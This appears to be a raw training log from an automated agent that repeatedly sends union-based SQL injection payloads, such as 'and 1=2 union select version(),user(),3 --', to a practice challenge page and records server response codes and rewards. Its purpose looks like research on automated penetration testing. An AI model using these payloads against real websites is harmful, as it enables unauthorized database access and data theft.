https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax e

  0%|          | 1202/1000000 [7:23:21<27422:45:24, 98.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 

  0%|          | 1203/1000000 [7:24:26<24620:43:04, 88.74s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1204/1000000 [7:24:27<17312:05:40, 62.40s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 

  0%|          | 1205/1000000 [7:24:40<13182:58:10, 47.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1206/1000000 [7:24:41<9312:07:06, 33.56s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union sele

  0%|          | 1207/1000000 [7:26:17<14556:00:15, 52.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1208/1000000 [7:26:18<10273:55:06, 37.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1209/1000000 [7:26:19<7267:53:28, 26.20s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1210/1000000 [7:26:23<5396:17:32, 19.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,use

  0%|          | 1211/1000000 [7:32:30<34307:26:43, 123.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1212/1000000 [7:32:36<24561:17:41, 88.53s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with dif

  0%|          | 1213/1000000 [7:36:39<37386:36:30, 134.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1214/1000000 [7:36:40<26249:22:40, 94.61s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc numbe

  0%|          | 1215/1000000 [7:37:04<20364:40:48, 73.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1216/1000000 [7:37:06<14428:11:21, 52.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1217/1000000 [7:37:07<10206:01:29, 36.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1218/1000000 [7:37:10<7383:39:55, 26.61s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1219/1000000 [7:37:12<5300:45:36, 19.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1220/1000000 [7:37:15<3998:07:16, 14.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1221/1000000 [7:37:16<2908:26:28, 10.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1222/1000000 [7:37:19<2215:32:21,  7.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union se

  0%|          | 1223/1000000 [7:37:54<4501:03:32, 16.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'uni

  0%|          | 1224/1000000 [7:38:53<8094:37:26, 29.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1225/1000000 [7:38:55<5774:00:25, 20.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1226/1000000 [7:38:56<4119:07:39, 14.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zix

  0%|          | 1227/1000000 [7:39:54<7749:22:05, 27.93s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1228/1000000 [7:39:55<5460:29:23, 19.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server respons

  0%|          | 1229/1000000 [7:41:04<9567:56:29, 34.49s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1230/1000000 [7:41:05<6810:17:33, 24.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1231/1000000 [7:41:06<4845:02:50, 17.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1232/1000000 [7:41:07<3469:13:03, 12.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1233/1000000 [7:41:08<2489:31:07,  8.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1234/1000000 [7:41:08<1809:34:37,  6.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1235/1000000 [7:41:09<1360:53:50,  4.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server resp

  0%|          | 1236/1000000 [7:41:28<2533:12:41,  9.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 

  0%|          | 1237/1000000 [7:44:29<16835:50:51, 60.68s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--


  0%|          | 1238/1000000 [7:44:39<12559:10:54, 45.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1239/1000000 [7:44:40<8872:56:14, 31.98s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response 

  0%|          | 1240/1000000 [7:46:13<13936:56:18, 50.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1241/1000000 [7:46:14<9890:18:15, 35.65s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1242/1000000 [7:46:15<7006:02:27, 25.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1243/1000000 [7:46:16<4985:48:10, 17.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1244/1000000 [7:46:18<3637:30:26, 13.11s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of col

  0%|          | 1245/1000000 [7:47:07<6639:39:47, 23.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server res

  0%|          | 1246/1000000 [7:49:51<18279:39:55, 65.89s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1247/1000000 [7:49:52<12857:24:30, 46.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/l

  0%|          | 1248/1000000 [7:50:54<14160:15:52, 51.04s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server resp

  0%|          | 1249/1000000 [7:52:22<17296:10:04, 62.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.p

  0%|          | 1250/1000000 [7:52:47<14127:02:53, 50.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Synt

  0%|          | 1251/1000000 [7:53:55<15620:57:47, 56.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 

  0%|          | 1252/1000000 [7:54:24<13305:18:30, 47.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
